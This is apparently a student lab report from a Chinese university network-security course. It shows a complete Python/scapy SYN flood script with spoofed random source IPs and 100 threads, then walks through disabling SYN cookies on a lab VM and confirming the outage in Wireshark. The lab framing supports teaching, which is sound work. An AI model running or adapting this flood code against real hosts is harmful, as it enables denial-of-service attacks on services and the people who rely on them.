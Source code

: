 ```yaml
---
title: 网络安全实验报告6——使用Python实现SYN Flood攻击实验
categories:
  - QFNU
  - 网络安全
  - 实验报告
tags:
  - 网络安全原理实验报告
  - Python
  - SYN Flood攻击
  - QFNU
cover: 'https://repository-images.githubusercontent.com/265141058/fcc8fa00-a38c-11ea-8c49-332680847b31'
abbrlink: 8790bb83
date: 2024-04-28 11:32:51
---
```


## 实验环境

- 操作系统：Windows 11 23H2

- 抓包工具：WireShark

- 虚拟化软件：VMware Workstation 16

- 虚拟机操作系统：Ubuntu 18.04.1

## 实验过程

### 攻击代码

使用 Python 编写的实现 SYN Flood 攻击的代码：

```python
from scapy.all import *
from random import randint
import threading


def randomIP():
    ip = ".".join(map(str, (randint(0, 255) for _ in range(4))))
    return ip


def randInt():
    x = randint(1000, 9000)
    return x


def SYN_Flood(dstIP, dstPort, counter):
    total = 0
    print("正在发送数据包……")
    for x in range(0, counter):
        s_port = randInt()
        s_eq = randInt()
        window = randInt()

        IP_Packet = IP()
        IP_Packet.src = randomIP()
        IP_Packet.dst = dstIP

        TCP_Packet = TCP()
        TCP_Packet.sport = s_port
        TCP_Packet.dport = dstPort
        TCP_Packet.flags = "S"
        TCP_Packet.seq = s_eq
        TCP_Packet.window = window

        send(IP_Packet / TCP_Packet, verbose=0)
        total += 1
        print("\n该线程发送的数据包个数：%i\n" % total)


def main():
    dstIP, dstPort = '192.168.10.131', 8000

    num_threads = 100
    counter_per_thread = 100000
    threads = []

    for _ in range(num_threads):
        t = threading.Thread(target=SYN_Flood, args=(dstIP, dstPort, counter_per_thread))
        t.start()
        threads.append(t)

        for t in threads:
            t.join()


if __name__ == "__main__":
    main()

```

### 启动虚拟机

1.  查看子网名称和子网地址

    ![子网名称和子网地址](../images/CyberSecurity/6-SYN-flood/image.png)

2.  进入 Ubuntu 虚拟机，打开终端

3.  查看 IP 地址

    ![IP地址](../images/CyberSecurity/6-SYN-flood/image-1.png)

4.  关闭 SYN Cookies 机制

    ![关闭SYN Cookies机制](../images/CyberSecurity/6-SYN-flood/image-2.png)

5.  开启一个简易的 Web 服务

        ![开启一个简易的Web服务](../images/CyberSecurity/6-SYN-flood/image-3.png)

6.  现在宿主主机就可以通过 IP 地址+端口号访问这个 Web 服务了。

    ![访问Web服务](../images/CyberSecurity/6-SYN-flood/image-4.png)

### 抓包

1.  打开 Wireshark，选择网卡，开始抓包

    ![抓包](../images/CyberSecurity/6-SYN-flood/image-5.png)

2.  编辑攻击脚本，将目标 IP 地址和端口号改为宿主主机的 IP 地址和 Web 服务的端口号

    ![修改攻击脚本](../images/CyberSecurity/6-SYN-flood/image-6.png)

3.  运行攻击脚本，开始发送 SYN 包

    ![运行攻击脚本](../images/CyberSecurity/6-SYN-flood/image-7.png)

4.  访问 Web 服务，查看服务器的响应情况

    ![访问Web服务](../images/CyberSecurity/6-SYN-flood/image-8.png)

5.  停止抓包，查看攻击结果

    ![停止抓包](../images/CyberSecurity/6-SYN-flood/image-9.png)

可以发现，Wireshark 捕捉到大量的 SYN 数据包，服务端由于大量的 SYN 请求，无法及时响应，导致连接超时。

